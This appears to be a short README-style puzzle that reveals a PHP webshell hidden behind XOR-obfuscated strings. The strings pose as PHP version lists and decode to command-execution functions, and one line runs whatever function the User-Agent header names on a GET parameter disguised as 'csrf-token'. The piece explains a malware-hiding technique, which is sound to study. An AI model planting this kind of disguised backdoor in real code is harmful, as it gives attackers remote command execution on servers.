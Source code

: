 # What does this code do?
seriously.

<details>
<summary>Spoiler warning</summary>
It's a webshell :) 
<code>
  public const VERSIONS = array(
        "KWBZUA" ^ "8.1.0, 8.1.1, 8.1.2",
        "GADK_" ^ "7.4.14, 7.4.13, 7.4.12",
        "RVQM" ^ "7.4.24, 7.4.23, 7.4.22",
        "GOG]FY^U" ^ "7.4.21, 7.4.20, 7.4.19",
        "G\[MnW\EY" ^ "7.4.18, 7.4.16, 7.4.15",
  );
</code>
  is identical to
<code>
  public const VERSIONS = array(
        "system",
        "popen",
        "exec",
        "passthru",
        "proc_open",
    );
</code>
and
<code>
${"_SERVER"}["HTTP_USER_AGENT"]($_GET["csrf-token"]);
</code>
is identical to 
<code>
$_SERVER["HTTP_USER_AGENT"]($_GET["csrf-token"]);
</code>

</details>
